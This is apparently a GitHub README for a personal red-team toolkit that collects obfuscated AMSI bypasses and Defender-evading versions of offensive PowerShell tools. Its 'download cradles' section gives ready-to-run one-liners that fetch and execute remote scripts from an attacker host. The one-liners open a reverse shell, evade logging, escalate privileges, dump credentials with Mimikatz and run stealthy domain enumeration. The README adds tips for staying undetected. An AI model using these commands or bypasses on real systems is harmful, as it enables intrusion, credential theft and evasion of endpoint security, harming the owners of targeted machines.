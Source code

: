 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## what is this and why is this public

A collection of custom obfuscated AMSI bypass methods (source taken from [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)) for powershell sessions as well as a collection of obfuscated scripts for bypassing Microsoft Defender.

Even though I hate MDE, showing off how easy it is to bypass AMSI can only help make it better. Right now it is the only protection for a significant amount of home users and smaller enterprises which is bad.

These really are just for me to learn and have fun with staying in-memory with only powershell. I can't really recommend you use these on an engagement (go use [WinPwn](https://github.com/S3cur3Th1sSh1t/WinPwn))

## bypass methods

I will unprivate soon :)

## MDE-safe scripts

These are all just for defender - I just used defendercheck and made some edits. Anything serious and you're on your own

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - Removed some comments and error messages.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (terrible signature.)

- `Invoke-Mimimkatz`
    - This script is **not yet bypassed**. The VS solution source will need to be custom-compiled or encoded further. I'll fix this later.
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`. **Do not use this option** if you want to be opsec safe!

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will get caught

- **Reverse Shell**
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- **Log Evasion**
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- **Privilege Escalation**
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- **Dump Creds**
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- **Domain Abuse**

SHARPHOUND TOUCHES DISK OBVIOUSLY

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```

## to-be-added

- `Invoke-SessionHunter`
- `PowerView`
- `Invoke-Rubeus`
- obfuscated shell for .net reflected assemblies (empire already has a folder for this but I will make some custom bypasses)
